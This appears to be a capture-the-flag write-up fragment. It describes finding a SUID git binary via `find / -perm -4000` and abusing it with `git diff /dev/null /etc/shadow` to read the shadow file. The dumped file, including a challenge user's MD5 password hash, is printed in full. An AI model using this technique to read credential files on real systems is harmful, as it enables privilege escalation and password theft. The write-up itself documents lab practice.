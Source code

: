 
the challenge description says that we must get madoka password

so i tought of /etc/shadow

`-rw-r-----    1 root     nobody         512 Sep  2 20:04 /etc/shadow
`

but i couldn't read it 

so i continued my enumeration scanning for files owned by root or madoka user

but nothing

until i tought of fuzzing for SUID 

`find / -perm -4000`

at this point i did a terrible typo

and lost a bit of time

but at the end i was able to discover that the binary /usr/bin/git had the suid bit set 

this grants us full read access on system and potentially root

as i only had rce i choose to just get the /etc/shadow file

````
git diff /dev/null /etc/shadow
````

```
root:*::0::::: 
bin:!::0::::: 
daemon:!::0::::: 
adm:!::0::::: 
lp:!::0::::: 
sync:!::0::::: 
shutdown:!::0::::: 
halt:!::0::::: 
mail:!::0::::: 
news:!::0::::: 
uucp:!::0::::: 
operator:!::0::::: 
man:!::0::::: 
postmaster:!::0::::: 
cron:!::0::::: 
ftp:!::0::::: 
sshd:!::0::::: 
at:!::0::::: 
squid:!::0::::: 
xfs:!::0::::: 
games:!::0::::: 
cyrus:!::0:::::
vpopmail:!::0::::: 
ntp:!::0::::: 
smmsp:!::0::::: 
guest:!::0::::: 
nobody:!::0::::: 
haproxy:!:19591:0:99999:7::: m4d0k4:$1$.BvSIAvP$opyELmUUXoM8kQ5M31tcz/:19602:0:99999:7:::
```
